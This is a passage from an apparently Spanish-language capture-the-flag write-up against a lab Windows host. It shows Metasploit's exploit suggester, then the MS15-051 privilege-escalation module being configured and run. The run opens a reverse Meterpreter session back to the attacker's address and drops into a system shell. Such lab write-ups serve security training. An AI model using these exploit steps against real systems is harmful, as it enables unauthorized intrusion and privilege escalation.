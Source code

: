 ```Python
  [+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
  [+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
  [+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
  [+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
  [+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
  [*] Post module execution completed
```
Selección de exploit sugerido.
```Python
  msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_image
```
Revisión de opciones de exploit sugerido.
```Python
  msf5 exploit(windows/local/ms15_051_client_copy_image) > show options 

  Module options (exploit/windows/local/ms15_051_client_copy_image):

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SESSION                   yes       The session to run this module on.


  Exploit target:

  Id  Name
  --  ----
  0   Windows x86
  
Configuración de opciones de exploit sugerido.

  msf5 exploit(windows/local/ms15_051_client_copy_image) > set SESSION 1
  SESSION => 1
  msf5 exploit(windows/local/ms15_051_client_copy_image) > set LHOST 10.10.14.18
  LHOST => 10.10.14.18
```
Ejecución de exploit sugerido.
```Python
  msf5 exploit(windows/local/ms15_051_client_copy_image) > run

  [*] Started reverse TCP handler on 10.10.14.18:4444 
  [*] Launching notepad to host the exploit...
  [+] Process 3828 launched.
  [*] Reflectively injecting the exploit DLL into 3828...
  [*] Injecting exploit into 3828...
  [*] Exploit injected. Injecting payload into 3828...
  [*] Payload injected. Executing exploit...
  [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
  [*] Sending stage (180291 bytes) to 10.10.10.15
  [*] Meterpreter session 2 opened (10.10.14.18:4444 -> 10.10.10.15:1033) at 2019-10-21 20:24:12 -0400

  meterpreter > shell
  Process 4012 created.
  Channel 1 created.
  Microsoft Windows [Version 5.2.3790]
  (C) Copyright 1985-2003 Microsoft Corp.

  C:\WINDOWS\system32>whoami
  whoami
```